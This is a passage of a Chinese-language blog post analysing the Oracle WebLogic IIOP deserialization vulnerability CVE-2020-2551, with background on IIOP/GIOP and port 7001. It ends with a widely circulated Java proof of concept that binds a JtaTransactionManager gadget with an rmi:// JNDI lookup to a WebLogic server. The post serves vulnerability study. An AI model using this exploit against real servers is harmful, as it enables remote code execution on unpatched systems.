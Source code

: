 ﻿# 前言
&emsp;&emsp; 2020年1月15日, Oracle官方发布了CVE-2020-2551的漏洞通告，漏洞等级为高危，CVVS评分为9.8分，漏洞利用难度低。影响范围为10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0。
ps：漏洞学习环境以代码均在上传[Github项目](https://github.com/SummerSec/JavaLearnVulnerability)。

---
# TIPS
---
## IIOP前世今生
&emsp;&emsp; IIOP（Internet Inter-ORB Protocol）Internet对象请求代理间协议，是针对Internet的标准协议，Java中使得程序可以和其他语言的CORBA（普通对象请求协议架构）实现实现互操作性的协议。它规定了GIOP消息通过TCP／IP连接进行交换的规范，适用所有基于TCP／IP的ORB（对象请求代理）产品。IIOP把GIOP消息数据映射为TCP/IP连接行为和输入/输出流进行读/写。IIOP使得Internet本身即可用作骨干ORB，其他ORB可借此进行连接。　　
&emsp;&emsp; GIOP全称（General Inter-ORB Protocol）通用对象请求协议，规定了标准的传输语法及一组ORB间通信消息格式，其设计直接基于任何面向连接的协议，因此可以与下层协议动态绑定。其功能简单来说就是CORBA用来进行数据传输的协议。GIOP针对不同的通信层有不同的具体实现，而针对于TCP/IP层，名为IIOP。所以说通过TCP协议传输的GIOP数据可以称为``IIOP``。
 &emsp;&emsp; 这里只做简单说明，更多详情，可以参考[Internet Inter-ORB Protocol
](http://www.cnpaf.net/class/i/200510/6936.html)

---
## “万金油”之7001端口
&emsp;&emsp; Weblogic的端口之所以说他是一个“万金油”端口，是因为发送什么协议的请求，它就会响应什么协议。比例说，T3协议、HTTP协议、IIOP协议都可以响应对应的请求，可以说是具有咱们中国的万金油的特性。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201116195217633.png)


---
# 漏洞分析

&emsp;&emsp; 前文提到了漏洞复现的几个坑，但如果使用[手把手教你解决Weblogic CVE-2020-2551 POC网络问题](https://xz.aliyun.com/t/7498)文中方法解决网络问题，那``每一次目标都得修改一次ip和端口``。作为一名懒人，这种方法很显然不适合我。在寻找通用的方法路上，偶然寻得一种方式，具体在哪找到不记得了，应该是翻GitHub找到的。

----
## 浅析Payload
----
### 对比分析Payload
&emsp;&emsp; 首先我们看看网上流传最广泛的payload，对于网络问题没有做任何处理，网上流传的方法就是修改``IOPProfile.class``327和328行的ip和端口。


```java
public static void main(String[] args) throws Exception {
        String ip = "127.0.0.1";
        String port = "7001";
        Hashtable<String, String> env = new Hashtable<String, String>();
        env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
        env.put("java.naming.provider.url", String.format("iiop://%s:%s", ip, port));
        Context context = new InitialContext(env);
    
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        jtaTransactionManager.setUserTransactionName("rmi://127.0.0.1:1099/Exploit");
        Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), Remote.class);
        context.bind("hello", remote);
    }
```
